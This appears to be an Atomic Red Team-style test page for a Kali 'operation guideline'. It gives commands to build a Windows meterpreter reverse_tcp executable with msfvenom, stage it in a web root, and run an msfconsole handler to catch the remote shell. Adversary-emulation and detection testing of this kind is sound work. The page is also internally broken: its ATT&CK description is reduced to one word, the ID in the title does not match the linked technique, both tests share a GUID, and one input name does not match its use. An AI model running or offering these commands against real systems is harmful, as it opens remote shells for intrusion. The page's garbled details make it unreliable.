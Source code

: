 # T1000 - Kali Operation Guideline
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)
<blockquote>decompression.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create an exploit using msfvenom](#atomic-test-1---create-an-exploit-using-msfvenom)
- [Atomic Test #2 - Set & Run a handler using msfconsole](#atomic-test-2---set--run-a-handler-using-msfconsole)


<br/>

## Atomic Test #1 - Create an exploit using msfvenom
Create an exploit using msfvenom

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | '4444' |
| format | format | String | exe |
| output_path | output_path | String | /var/www/html/rs_exploit.exe |


#### Attack Commands: Run with `bash`! 
```bash
msfvenom -p #{payload} LHOST=#{LHOST} LPORT=#{LPORT} -f #{format} -o #{output_path}
```

<br/>

## Atomic Test #2 - Set & Run a handler using msfconsole
Guideline of set & run a handler using msfconsole

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hander | handler | String | exploit/multi/handler |
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | '4444' |


#### Attack Commands: Run with `bash`! 


```bash
cat << EOF
run the cmdlets below in kali(#{LHOST}):
msfconsole
msfconsole>use #{handler}
msfconsole>set PAYLOAD #{payload}
msfconsole>set LHOST #{LHOST}
msfconsole>set LPORT #{LPORT}
msfconsole>exploit
EOF
```


#### Dependencies:  Run with `bash`!

<br/>
